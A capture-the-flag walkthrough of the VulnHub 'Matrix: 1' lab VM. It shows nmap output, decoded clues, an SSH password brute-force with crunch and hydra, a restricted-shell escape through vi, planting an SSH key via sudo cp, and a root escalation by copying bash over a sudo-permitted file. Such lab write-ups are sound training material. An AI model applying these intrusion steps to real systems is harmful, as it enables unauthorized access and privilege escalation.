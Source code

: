 # MATRIX: 1  
  
**URL: https://www.vulnhub.com/entry/matrix-1,259/**  
  
### NMAP

root@kali:~# nmap -A 192.168.1.118  
>Starting Nmap 7.70 ( https://nmap.org ) at 2018-11-04 16:56 UTC  
>Nmap scan report for porteus.home (192.168.1.118)  
>Host is up (0.00053s latency).  
>Not shown: 997 closed ports  
>PORT      STATE SERVICE VERSION  
>22/tcp    open  ssh     OpenSSH 7.7 (protocol 2.0)  
>| ssh-hostkey:   
>|   2048 9c:8b:c7:7b:48:db:db:0c:4b:68:69:80:7b:12:4e:49 (RSA)  
>|   256 49:6c:23:38:fb:79:cb:e0:b3:fe:b2:f4:32:a2:70:8e (ECDSA)  
>|_  256 53:27:6f:04:ed:d1:e7:81:fb:00:98:54:e6:00:84:4a (ED25519)  
>80/tcp    open  http    SimpleHTTPServer 0.6 (Python 2.7.14)  
>|_http-server-header: SimpleHTTP/0.6 Python/2.7.14  
>|_http-title: Welcome in Matrix  
>31337/tcp open  http    SimpleHTTPServer 0.6 (Python 2.7.14)  
>|_http-server-header: SimpleHTTP/0.6 Python/2.7.14  
>|_http-title: Welcome in Matrix  
>MAC Address: 08:00:27:E5:B2:AA (Oracle VirtualBox virtual NIC)  
>Device type: general purpose  
>Running: Linux 3.X|4.X  
>OS CPE: cpe:/o:linux:linux_kernel:3 cpe:/o:linux:linux_kernel:4  
>OS details: Linux 3.2 - 4.9  
>Network Distance: 1 hop  
>  
>TRACEROUTE  
>HOP RTT     ADDRESS  
>1   0.53 ms porteus.home (192.168.1.118)    
>  
>OS and Service detection performed. Please report any incorrect results at https://>nmap.org/submit/ .  
>Nmap done: 1 IP address (1 host up) scanned in 40.75 seconds  
  
### PORT 31337  
  
Here we find the same html that was running in the 80 port but with a few changes. If we look closely to the source code, we see a base64:  
>  
>ZWNobyAiVGhlbiB5b3UnbGwgc2VlLCB0aGF0IGl0IGlzIG5vdCB0aGUgc3Bvb24gdGhhdCBiZW5kcywgaXQgaXMgb25seSB5b3Vyc2VsZi4gIiA+IEN5cGhlci5tYXRyaXg=  
>  

That translates into the following text:  

>echo "Then you'll see, that it is not the spoon that bends, it is only yourself. " > Cypher.matrix  
  
The clue in the sentence is the filename. So we go to the http://192.168.1.118:31337/Cypher.matrix  
>  
>+++++ ++++[ ->+++ +++++ +<]>+ +++++ ++.<+ +++[- >++++ <]>++ ++++. +++++  
>+.<++ +++++ ++[-> ----- ----< ]>--- -.<++ +++++ +[->+ +++++ ++<]> +++.-  
>...  
>  
  
Here we see what seems a brainfuck code.  
  
>   
>You can enter into matrix as guest, with password k1ll0rXX  
>  
>Note: Actually, I forget last two characters so I have replaced with XX try your  
>luck and find correct string of password.  
>  

### GUEST  
  
Well, that was easy. We just need to create a custom dictionary to retrieve the password:  

>    
>root@kali:~# crunch 8 8 -f /usr/share/crunch/charset.lst mixalpha-numeric -t k1ll0r@@ -o pass.txt  
>Crunch will now generate the following amount of data: 34596 bytes  
>0 MB  
>0 GB  
>0 TB  
>0 PB  
>Crunch will now generate the following number of lines: 3844   
>  
>crunch: 100% completed generating output  
>  

And with our custom dictionary, we bruteforce the SSH with the guest user.  
  
>root@kali:~# hydra -l guest -P pass.txt ssh://192.168.1.118  
>Hydra v8.6 (c) 2017 by van Hauser/THC - Please do not use in military or secret >service organizations, or for illegal purposes.  
>  
>Hydra (http://www.thc.org/thc-hydra) starting at 2018-11-04 17:14:00  
>[WARNING] Many SSH configurations limit the number of parallel tasks, it is >recommended to reduce the tasks: use -t 4  
>[DATA] max 16 tasks per 1 server, overall 16 tasks, 3844 login tries (l:1/p:3844), >~241 tries per task  
>[DATA] attacking ssh://192.168.1.118:22/  
>[22][ssh] host: 192.168.1.118   login: guest   password: **k1ll0r7n**  
>1 of 1 target successfully completed, 1 valid password found  
>  
>Hydra (http://www.thc.org/thc-hydra) finished at 2018-11-04 17:21:54  
  
Now, we have the guest credentials: k1ll0r7n. Let's log in:  
>  
>root@kali:~# ssh -l guest 192.168.1.118  
>guest@192.168.1.118's password:   
>Last login: Sun Nov  4 17:24:05 2018 from 192.168.1.47  
>guest@porteus:~$ id  
>-rbash: id: command not found  
>  

Cool, a restricted shell. Let's break out. First, we check what the environment looks like:
     
>guest@porteus:~$ export  
>...  
>declare -rx PATH="/home/guest/prog"  
>declare -x PWD="/home/guest"  
>declare -rx SHELL="/bin/rbash"  
>...  
  
We have our PATH set to a specific folder, what tools do we have?  
  
>guest@porteus:~$ /home/guest/prog/vi   
>.Xauthority    .cache/        .gksu.lock     Documents/     Public/  
>.bash_history  .config/       .local/        Downloads/     Videos/  
>.bash_profile  .dbus/         .ssh/          Music/         prog/  
>.bashrc        .esd_auth      Desktop/       Pictures/        

Just with the tab we see that vi is allowed. So It's pretty easy to break out, we can invoke a bash shell just with the following command:  

>vi -> :!/bin/bash  

Now we export our PATH to ease our game:  

>guest@porteus:~$ declare -x PATH="/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:>/sbin:/bin"  
>guest@porteus:~$ id  
>uid=1000(guest) gid=100(users) groups=100(users),7(lp),11(floppy),17(audio),18(video),19(cdrom),83(plugdev),84(power),86(netdev),93(scanner),997(sambashare)  
>  
Now we check what commands could we use as other users:  

>guest@porteus:/home/trinity$ sudo -l  
>User guest may run the following commands on porteus:  
>    (ALL) ALL  
>    (root) NOPASSWD: /usr/lib64/xfce4/session/xfsm-shutdown-helper  
>    (trinity) NOPASSWD: /bin/cp  

Well, the xfce4 file didn't exist, so let's log in as trinity to check what we could do.  
>  
>guest@porteus:~$ /bin/echo "ssh-rsa AAAAB3...n6ymj root@kali" > test  
>guest@porteus:~$ sudo -u trinity /bin/cp test /home/trinity/.ssh/authorized_keys  
>  
### TRINITY  

Nothing to explain here. Let's check again:  

>trinity@porteus:~$ id  
>uid=1001(trinity) gid=1001(trinity) groups=1001(trinity)  
>trinity@porteus:~$ sudo -l  
>User trinity may run the following commands on porteus:  
>    (root) NOPASSWD: /home/trinity/oracle  

### ROOT

Well, same routine and we are done:

>trinity@porteus:~$ /bin/cp /bin/bash /home/trinity/oracle  
>  
>trinity@porteus:~$ sudo -u root /home/trinity/oracle   
>root@porteus:/home/trinity# id  
>uid=0(root) gid=0(root) groups=0(root),1(bin),2(daemon),3(sys),4(adm),6(disk),10(wheel)  
>root@porteus:/home/trinity# cd  
>root@porteus:~# cat flag.txt   
>   _,-.                                                               
>,-'  _|                  EVER REWIND OVER AND OVER AGAIN THROUGH THE  
>|_,-O__`-._              INITIAL AGENT SMITH/NEO INTERROGATION SCENE  
>|`-._\`.__ `_.           IN THE MATRIX AND BEAT OFF                   
>|`-._`-.\,-'_|  _,-'.                                                 
>     `-.|.-' | |`.-'|_     WHAT                                       
>        |      |_|,-'_`.                                              
>              |-._,-'  |     NO, ME NEITHER                           
>         jrei | |    _,'                                              
>              '-|_,-'          IT'S JUST A HYPOTHETICAL QUESTION      
>  

It was fun, but very easy to solve. Props to @unknowndevice64 for the VM.  